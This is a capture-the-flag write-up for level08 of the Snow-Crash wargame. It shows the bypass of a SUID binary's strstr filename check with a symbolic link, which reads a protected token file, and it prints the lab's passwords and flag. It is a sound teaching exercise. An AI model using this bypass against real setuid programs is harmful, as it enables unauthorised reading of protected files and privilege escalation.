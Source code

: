 # Level08

Login as `level08`

```bash
┌──$ [~/42/2021/snow-crash]
└─>  ssh 192.168.1.64 -p 4242 -l level08
level08@192.168.1.64's password: fiumuikeil55xe9cu4dood66h
```

There is a `SUID` executable and a token file in the home directory:

```bash
level08@SnowCrash:~$ ls -l
total 16
-rwsr-s---+ 1 flag08 level08 8617 Mar  5  2016 level08
-rw-------  1 flag08 flag08    26 Mar  5  2016 token
level08@SnowCrash:~$ ./level08
./level08 [file to read]
level08@SnowCrash:~$ ./level08 token
You may not access 'token'
level08@SnowCrash:~$ cat token
cat: token: Permission denied
```

It seems that `token` can't be read by `level08` or `cat`

As in the previous level, `ltrace` and `radare2` can be used to intercept the dynamic library and system calls executed by the program level08:

```bash
level08@SnowCrash:~$ ltrace ./level08 token
__libc_start_main(0x8048554, 2, 0xbffff7d4, 0x80486b0, 0x8048720 <unfinished ...>
strstr("token", "token") = "token"
printf("You may not access '%s'\n", "token"You may not access 'token') = 27
exit(1 <unfinished ...>
+++ exited (status 1) +++
```

To prevent the user from reading the token file with this setUID, an strstr check is made on the filename given as parameter.

`strstr` function locate a substring needle in the string `haystack`.

So we can deduct that if the passed file has token string in name, it exists.

To bypass it, we can create a symbolic link to our token file with a different name and execute level08 with it to get thte password to log into flag08:

```bash
level08@SnowCrash:~$ ln -s $(realpath token) /tmp/symlink
level08@SnowCrash:~$ ./level08 /tmp/symlink
quif5eloekouj29ke0vouxean
```

Finally log as `flag08` and get the flag:

```bash
level08@SnowCrash:~$ su flag08
Password: quif5eloekouj29ke0vouxean
flag08@SnowCrash:~$ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```
